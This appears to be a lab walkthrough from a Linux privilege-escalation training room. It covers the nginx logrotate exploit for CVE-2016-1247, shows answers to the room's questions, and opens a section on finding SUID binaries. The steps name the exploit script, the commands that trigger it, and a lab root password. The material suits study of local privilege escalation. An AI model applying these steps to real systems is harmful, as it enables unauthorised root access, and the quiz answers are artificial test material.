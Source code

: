 **Linux VM – Terminal 1**

1. For this exploit, it is required that the user be www-data. To simulate this escalate to root by typing: `su root`
2. The root password is `password123`
3. Once escalated to root, in command prompt type: `su -l www-data`
4. In command prompt type: `/home/user/tools/nginx/nginxed-root.sh /var/log/nginx/error.log`
5. At this stage, the system waits for logrotate to execute. In order to speed up the process, this will be simulated by connecting to the Linux VM via a different terminal.

**Linux VM – Terminal 2**

1. Once logged in, type: `su root`
2. The root password is `password123`
3. As root, type the following: `invoke-rc.d nginx rotate >/dev/null 2>&1`
4. Switch back to the previous terminal.

**Linux VM – Terminal 1**

1. From the output, notice that the exploit continued its execution.
2. In command prompt type: `id`

---

```
TCM@debian:~$ dpkg -l | grep nginx
ii  nginx-common                        1.6.2-5+deb8u2~bpo70+1       small, powerful, scalable web/proxy server - common files
ii  nginx-full                          1.6.2-5+deb8u2~bpo70+1       nginx web/proxy server (standard version)
```

* [Vulnerability Details : CVE-2016-1247](https://www.cvedetails.com/cve/CVE-2016-1247/)
* [Nginx (Debian Based Distros + Gentoo) - 'logrotate' Local Privilege Escalation](https://www.exploit-db.com/exploits/40768)

1. What CVE is being exploited in this task?

`CVE-2016-1247`

2. What binary is SUID enabled and assists in the attack?

```c
SUIDBIN="/usr/bin/sudo"
```

`sudo`

## Privilege Escalation - SUID (Environment Variables #1)

**Detection**

**Linux VM**

1. In command prompt type: `find / -type f -perm -04000 -ls 2>/dev/null`
2. From the output, make note of all the SUID binaries.
3. In command prompt type: `strings /usr/local/bin/suid-env`
4. From the output, notice the functions used by the binary.
